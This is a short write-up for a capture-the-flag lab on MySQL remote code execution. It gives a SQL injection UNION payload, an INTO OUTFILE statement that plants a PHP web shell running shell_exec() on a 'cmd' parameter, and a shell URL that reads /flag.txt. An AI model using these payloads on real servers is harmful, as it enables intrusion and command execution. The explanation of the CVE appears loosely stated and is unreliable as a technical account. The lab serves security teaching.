 ## About this lab

This lab is dedicated for learning penetration testing skill through *CVE-2016-6662: MySQL Remote Root Code Execution*

### Core logic:
The problem with this CVE lies in the secure_file_priv variable, which was added in MySQL version 5.5.53.
It was supposed to add a layer of security since it restricted the privilege to read or write anywhere, which happened a lot back then.
However, in the early stages of version 5.6 up to version 5.7.6, the default value of secure_file_priv is null, so nothing is changed if the database admin doesn't take extra notice at that point.


### Writeup:
1. The first part of the flag is inside the database, you will get it with this payload: `1 UNION SELECT NULL, flag from flags`
2. The second part of the flag is located at the root folder of the server. You first create a PHP shell code with this:
```
select '<?php $output=shell_exec($_GET["cmd"]);
echo "<pre>".$output."</pre>"?>' into outfile '/var/www/html/shell.php' from mysql.user limit 1;
```
This create a PHP file with cmd parameter that take value from input and parse it to shell_exec() function - a PHP function that executing shell command.

3. With that parameter, you will get: `/shell.php?cmd=cat /flag.txt`.

4. You get the flag.

